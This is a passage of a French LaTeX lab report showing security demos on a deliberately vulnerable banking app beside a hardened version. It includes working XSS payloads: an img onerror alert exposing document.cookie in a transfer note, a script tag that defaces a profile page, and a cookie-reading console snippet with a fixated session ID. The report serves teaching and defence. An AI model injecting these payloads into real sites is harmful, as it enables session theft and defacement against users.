
\includegraphics[width=0.75\linewidth]{photos/xss-reflechi-popup.png}
\caption{Démo 2 — Popup XSS réfléchi sur la page de login}
\end{figure}

% -------- DÉMO 3 --------
\section{Démo 3 — XSS Stocké via note de virement}

Connecté en tant qu'Alice, un virement de 1~€ est effectué avec comme note :

\begin{lstlisting}[language=JavaScript]
<img src=x onerror="alert('XSS! Cookie: '+document.cookie)">
\end{lstlisting}

La popup s'affiche à chaque chargement du dashboard, \textbf{pour tous les utilisateurs connectés}.

\begin{figure}[H]
\centering

\includegraphics[width=0.8\linewidth]{photos/xss-dashboard-note-popup.png}
\caption{Démo 3 — XSS stocké dans la note de virement, déclenché sur le dashboard}
\end{figure}

% -------- DÉMO 4 --------
\section{Démo 4 — XSS Stocké via profil (défacement)}

Dans la page Profil, le champ \og Nom complet \fg{} est modifié avec :

\begin{lstlisting}[language=JavaScript]
<script>
document.body.innerHTML='<h1 style="color:red;font-size:72px">HACKED</h1>'
</script>
\end{lstlisting}

La page profil est entièrement remplacée à chaque visite.

\begin{figure}[H]
\centering

\includegraphics[width=0.75\linewidth]{photos/xss-profil-deface.png}
\caption{Démo 4 — Défacement de la page profil via XSS stocké}
\end{figure}

% -------- DÉMO 5 --------
\section{Démo 5 — Cookies lisibles (absence de HttpOnly)}

Dans la console DevTools (\texttt{F12}) sur \http{vuln.bank.local} :

\begin{lstlisting}[language=JavaScript]
// App vulnerable
document.cookie
// → "PHPSESSID=ATTACKERfixedSID001"

// App securisee
document.cookie
// → ""   (HttpOnly : invisible au JS)
\end{lstlisting}

\begin{figure}[H]
\centering
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/document-cookie-vuln.png}
  \caption{App vulnérable — cookie lisible}
\end{subfigure}
\hfill
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/document-cookie-secure.png}
  \caption{App sécurisée — cookie invisible}
\end{subfigure}
\caption{Démo 5 — Comparaison de la lisibilité des cookies}
\end{figure}

\begin{figure}[H]
\centering
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/cookies-vuln-devtools.png}
  \caption{Cookie sans HttpOnly/Secure}
\end{subfigure}
\hfill
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/cookies-secure-devtools.png}
  \caption{Cookie sécurisé (HttpOnly + Strict)}
\end{subfigure}
\caption{DevTools Application → Cookies : comparaison des attributs}
\end{figure}

% -------- DÉMO 6 --------
\section{Démo 6 — Mots de passe en clair vs. hashés}

\begin{figure}[H]
\centering
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/db-passwords-clear.png}
  \caption{bank\_vuln — mots de passe en clair}
\end{subfigure}
\hfill
\begin{subfigure}[b]{0.48\linewidth}
